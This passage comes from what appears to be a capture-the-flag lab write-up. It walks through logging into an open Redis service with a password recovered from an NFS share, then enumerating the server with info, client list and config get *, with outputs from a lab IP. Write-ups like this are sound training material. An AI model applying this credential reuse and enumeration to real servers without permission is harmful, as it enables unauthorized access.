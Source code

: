 ```
sudo umount FOLDER
```

<br>

## Redis Digging

We know that the Redis port is open, and we found a potential password on the NFS, so let's see what we can find there.

I connect over using the redis-cli tool and see authentication is required:

`redis-cli -h $ip`

```
10.10.210.255:6379> info
NOAUTH Authentication required.
```

The auth command lets you authenticate with Redis. I use it with the password we found on the NFS:

`auth <REDACTED>`

```
10.10.210.255:6379> auth <REDACTED>
OK
```

`info`

```
10.10.210.255:6379> info
# Server
redis_version:4.0.9
<SNIP>
```

I further enumerate:

`client list`

```
10.10.210.255:6379> client list
id=10 addr=10.6.0.242:52896 fd=8 name= age=278 idle=0 flags=N db=0 sub=0 psub=0 multi=-1 qbuf=0 qbuf-free=32768 obl=0 oll=0 omem=0 events=r cmd=client
```

`config get *`

```
10.10.210.255:6379> config get *
  1) "dbfilename"
  2) "dump.rdb"
  3) "requirepass"
  4) "<REDACTED>"
<SNIP>
```

`info keyspace`
